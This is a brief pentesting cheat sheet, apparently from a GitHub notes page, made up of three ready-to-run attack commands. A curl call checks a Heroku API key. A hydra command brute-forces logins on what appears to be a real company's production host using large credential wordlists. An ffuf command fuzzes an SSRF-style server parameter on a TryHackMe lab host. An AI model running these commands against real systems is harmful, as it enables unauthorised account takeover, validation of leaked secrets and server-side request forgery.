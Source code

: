 

Heroku API check 
`curl -X POST https://api.heroku.com/apps -H "Accept: application/vnd.heroku+json; version=3" -H "Authorization: Bearer $HEROKU_API_KEY"`

hydra usage/ Authentication bypass
`sudo hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -P password-biglist.txt -u -f  minimap-fusion.prod.lt.tomtom-global.com  https-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials" -V -t 64`


`ffuf -u 'http://nahamstore.thm/stockcheck' -c -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#' -od ./valid_responses  `
-fw is meant to filter out and is mw is for matching the word length

